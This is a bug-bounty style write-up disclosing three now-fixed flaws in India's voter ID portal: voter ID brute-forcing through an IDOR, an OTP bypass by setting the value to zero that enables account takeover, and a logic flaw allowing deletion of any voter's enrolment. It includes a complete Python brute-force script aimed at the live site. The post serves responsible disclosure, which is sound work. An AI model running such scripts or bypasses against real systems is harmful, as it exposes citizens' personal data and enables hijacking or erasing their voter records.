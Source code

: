```yaml
---
layout: post
title: Exposing Millions of Voter ID card users’ details.
date: 2022-07-07
summary: Three critical bugs in India's voter portal led to the exposure of voter ID card users' data, impacting millions of individuals.
categories: VDP
tags: [IDOR, ATO]
---
```




![](/blog/images/voter.webp)



*Hi, Everyone. hope you’re well. I’m [Aziz](https://twitter.com/nxtexploit). Through this write-up, I will share some security issues I’ve found on the official Voter ID card maintaining platform [http://nvsp.in](https://nvsp.in). I was filling out a correction form for my mom’s card, I’m not really interested in finding bugs on gov websites :`) that moment [burpsuite ](https://portswigger.net/burp/documentation/desktop/penetration-testing)was running in the background and I thought let's have a try. After spending half an hour I found some critical issues that I’m going to share. All these issues are already fixed by the government.*

In India, a [Voter ID](https://www.google.com/search?q=what+is+voter+ID+%28india%29) card is an identity document issued by the Election Commission of India to adult domiciles of India who have reached the age of 18, which primarily serves as an identity proof for Indian citizens while casting their ballot in the country’s municipal, state, and national elections. More than **780 million** Voter IDs are active at present.

* ## **Bruteforcing valid Voter IDs and extracting details (IDOR / BOLA)**

While registering a new account it shows two options “I have ``EPIC`` number” and “I don’t have `EPIC` number”. `EPIC` stands for Electors Photo Identification Card and the `EPIC` number is nothing but Voter ID no. If we chose we don’t have a Voter ID number then they will give you an option to add after registering on the portal. After registration, I tried to add any random `EPIC` no. with my account but it show it's not valid. So I sent that HTTP request to burp intruder for [brute-forcing](https://en.wikipedia.org/wiki/Brute-force_attack).

![](https://cdn-images-1.medium.com/max/2728/1*SKG6_nhMm0PkRkRXJjK2yg.png)

A Voter ID also known as `EPIC` number is an alphanumerical ID, it contains three Alphabets at starting and seven numbers i.e. `WRI2345678`, `RDH2345678`, `DTN2345678`, `YCV2345678`, `NLN2345678`, `XMB2345678`, etc. These three alphabets are Not random alphabets, you can find similar IDs with similar these three alphabets in beginning but the rest seven digits are different.

![](https://cdn-images-1.medium.com/max/2000/1*oCiejaOMRmwdEpIRzi27PQ.png)

I added the payload position on these seven-digit numbers on `Epic_no=` parameter i.e `Epic_no=WRI$2345678$`  (as you can see in the below screenshot.)

![Adding payload position](https://cdn-images-1.medium.com/max/2236/1*xz61EAZwEhSWlsDpMkJSSw.png)

Surprisingly there is no limitation implemented in the backend and I was able to send **unlimited requests** without getting blocked by firewall. As a result backend server responding 302 redirections for every valid voter ID. (As shown in the screenshot below)

![responding 302 for every valid voter ID](https://cdn-images-1.medium.com/max/2740/1*dLe_eyFiPf9amQz0o50meQ.png)

Then I wrote a [python script](https://github.com/nxtexploit/Voter-ID-bruteforcer/blob/main/Voter-ID-bruteforcer.py) that will brute force the values and give output all valid voter_IDs for me.

![](https://cdn-images-1.medium.com/max/2000/1*DA8ghQIWnJlNZty0OK6oEA.gif)

```python

import urllib3
import requests
import time
from termcolor import colored
urllib3.disable_warnings()
start = time.perf_counter() 

cookies = {
    'nvsp': '4e565XXXXX',
    'cookiesession1': '678B286C164561FFEFXXXXXXXXXXX',
    'nvsp': '4e56XXXXX',
    'nvspid': 'ycnpiabqfasdf0asdf09ad',
    '__RequestVerificationToken': 'taDxPTIR3vxuyduujVCoi5eJdSlsAv1X0MQea7VYvLf6ksNDNsK7BkQZbNLSKagASDFpouasdfuopasfcsCmlofM6tTlC1opGS9FBEjYYXxC-z9ze73zdtEjUXtq9JfGVDfsXwt3WmQ925gSsbUw2',
    '.ASPXAUTH': '53BDCF7905E361CB6ECE80B77506A1A4A54DFS6546A5DF787AS8DFB2B9CE6874FDE524BF7BAE0DDC59329705AB29D49A148B4494341EC7634C13DB69FA25425DCA10CAADA3A10B025D58D8220E842959F0C650A8DF39B43039354B537BCE61AFB4922B99E22F20DC099C0DE9BC2CA53D1A37F387867855DDE5D89583B2F5F95D898A',
}

headers = {
    'Host': 'www.nvsp.in',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '".Not/A)Brand";v="99", "Google Chrome";v="103", "Chromium";v="103"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'https://www.nvsp.in',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://www.nvsp.in/Account/MyProfile',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}


for voter_ID in range(2000000,2999999,1):


    data = '__RequestVerificationToken=dayrB-CCldwVYHXi7OE8b455jM3jLXRIdlHGQ5Wf4XyFE_7jjo1X3VfmkC4ZanqFO6h0XtveuAmSk1SIWWmV-SbA7nTUIJNKAfyRoiG43FvEAlDPi5VfkJWpGn9sV8IuFuBezLnC-tZSYFGqrRbECXgqlxpSduENgqaWy7oWQK01&OTP=&UserId=UQH34XXXXXXXX&firstName=Aziz&lastName=&Email=XXXXXXXX%40gmaill.com&Epic_no=WRI'+str(voter_ID)+'&PhoneNumber=XXXXXXXX87&st_code=S25&ac_no=55&PART_NO=42&Captcha=&Code='

    response = requests.post('https://www.nvsp.in/Account/MyProfile',allow_redirects=False, cookies=cookies, headers=headers, data=data, verify=False)

    if response.status_code == 302:
        print(f"Epic-ID FOUND = "+colored("WRI"+str(voter_ID),'green'))
    elif response.status_code == 200:
        print(colored("Not valid ID",'yellow'))
    else:
        print(colored("Session Expired ",'red')+"(response code = "+colored(str(response.status_code),'yellow')+")")

finish = time.perf_counter()

print(f'\n\nFinished in {round(finish-start, 2)} second(s)\n')

```

Now I have valid Voter IDs of random persons then, I added these IDs with my profile under “[/Account/MyProfile](https://www.nvsp.in/Account/MyProfile)”. Then there is an option under the “/[forms](https://www.nvsp.in/Forms)/”section which is **form001** and this form is already filled with **Name, father’s name, address, Date of birth, etc. **according to that valid EPIC ID added to my profile.

![**Extracted details of a random Person**](https://cdn-images-1.medium.com/max/2732/1*6izoRB4cWjN5zjdZTDYdJg.png)

* ## **Account takeover (OTP bypass)**

On the profile details updating section I was trying to add another user's number. So I created another account for it. But there was an OTP implanted there, and I tried to brute-force it but it didn’t work :( I remember reading an article last year, you can read it **[here](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)**, where the author just added 0 after intercepting the request. And I did the same thing here on OTP parameter and it worked :)

![intercepting traffic while OTP is verifying](https://cdn-images-1.medium.com/max/2740/1*q0TSMqdgsXTtzROWDo6y9g.png)

![[Changed the OTP value to zero](https://infosecwriteups.com/how-i-hacked-into-indias-top-matrimonial-website-and-earned-amazon-gift-card-worth-10k-inr-2a0b376219fa)](https://cdn-images-1.medium.com/max/2000/1*eEVjGxhUUzdbv2vkHlExnw.png)

After bypassing I thought it just can register the victim’s number then I’ll reset the password, But surprisingly on replacing the victim’s number my profile data automatically changed with the victim’s details, And I can own his account.

![](https://cdn-images-1.medium.com/max/2740/1*az1-jwdyMLK1pOLWbA6ghA.png)

* ## **Delete/remove any random user’s Voter ID card Permanently (Logic flaw)**

From the 1st bug, we can get and add any random user’s Voter ID to our account, From that on the home page there is an option for “Deletion of Enrolment”. And nothing to be needed after an attacker added any random Voter ID on his profile section. then he can easily delete any random user’s Voter ID permanently.

![An attacker can delete any random user’s card permanently](https://cdn-images-1.medium.com/max/2732/1*SvvI8ZoSelvF3-83BzQRTw.png)

I reported these three issues to [vdisclose@cert-in.org.in](https://www.cert-in.org.in/VulnerIncident.jsp) and they fixed these issues.

I hope you liked this article, If you have any questions then you can dm me on Twitter: [https://twitter.com/nxtexploit](https://twitter.com/nxtexploit)

Thanks for reading,

regards,

**Aziz**
